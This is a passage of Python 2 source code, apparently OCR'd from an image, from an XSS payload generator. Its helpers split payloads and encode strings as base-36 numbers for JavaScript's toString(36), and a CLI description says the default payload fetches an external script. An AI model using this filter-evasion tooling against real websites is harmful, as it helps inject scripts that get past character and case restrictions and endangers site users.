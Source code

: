 ```python
        can_split = not can_split
    if curr:
        yield curr

def split_to_len_simple(payload, count=None):
    if count is None:
        count=len(payload)
    return filter(None,re.findall('(.{,%u})' % count, payload))

def str_to_dec(payload, max_int):
    '''
    Returns a tuple: num, todo, removed
      num["toString"](36) gives a string from the beginning of payload
            until removed+todo; if there was an usupported character
            at the beginning num will be -1
      if we stopped becuase of unsupported characters, removed
      contains all such characters
      todo is the rest of the string after initial unsupported
            characters are removed
    '''
    
    supp_chars = string.lowercase+string.digits
    num = 0
    if payload[0] not in supp_chars:
        num = -1
    pos = 0
    err = False
    for c in payload:
        if c not in supp_chars:
            err = True
            break
        
        new_num = num*36 + (ord(c)-87 if c in string.lowercase else int(c))
        
        logger.debug('pos=%u, num=%u' % (pos,new_num))
        if new_num > max_int:
            logger.debug(
                'JS integer would overflow, ' +
                'string truncated to "%s"' % payload[0:pos])
            break
        
        pos = pos + 1
        num = new_num
    
    left = payload[pos:]
    todo = left.lstrip(left.translate(None, supp_chars))
    removed = left.replace(todo,'')
    
    return num, todo, removed


if __name__ == "__main__":
    logger = logging.getLogger('XSS Payloads')
    log_handler = logging.StreamHandler()
    log_handler.setFormatter(ColorFormatter('%(levelname)s: %(message)s'))
    logger.addHandler(log_handler)
    
    parser = argparse.ArgumentParser(
        formatter_class=argparse.ArgumentDefaultsHelpFormatter,
        argument_default=argparse.SUPPRESS,
        description='''XSS payloads for edge cases (limited number of
        characters, capitalised payloads, more to come...). Default
        payload fetches and external script. Arbitrary payloads are
```
